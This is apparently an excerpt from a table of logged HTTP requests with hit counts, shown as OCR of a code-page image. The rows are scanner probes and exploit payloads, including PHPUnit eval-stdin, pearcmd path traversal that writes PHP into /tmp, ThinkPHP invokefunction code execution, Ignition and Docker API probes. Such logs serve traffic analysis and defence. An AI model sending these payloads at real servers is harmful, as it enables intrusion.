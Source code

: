 |  74 |                     3 | GET /lib/phpunit/phpunit/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                           |
|  75 |                     3 | GET /lib/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                               |
|  76 |                     3 | GET /vendor/phpunit/phpunit/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                        |
|  77 |                     3 | \x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                    |
|  78 |                     3 | POST /HNAP1/ HTTP/1.0                                                                                                                                                                                                                                                                                                                                                                               |
|  79 |                     3 | GET /admin/assets/js/views/login.js HTTP/1.0                                                                                                                                                                                                                                                                                                                                                        |
|  80 |                     3 | GET /console/ HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                              |
|  81 |                     3 | GET /_ignition/execute-solution HTTP/1.1                                                                                                                                                                                                                                                                                                                                                            |
|  82 |                     3 | GET /geoserver HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                             |
|  83 |                     3 | GET /admin/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                              |
|  84 |                     3 | GET /containers/json HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                       |
|  85 |                     3 | GET /index.php?lang=../../../../../../../../tmp/index1 HTTP/1.1                                                                                                                                                                                                                                                                                                                                     |
|  86 |                     3 | GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?echo(md5(\x22hi\x22));?>+/tmp/index1.php HTTP/1.1                                                                                                                                                                                                                                                         |
|  87 |                     3 | GET /public/index.php?s=/index/\x5Cthink\x5Capp/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=Hello HTTP/1.1                                                                                                                                                                                                                                                                   |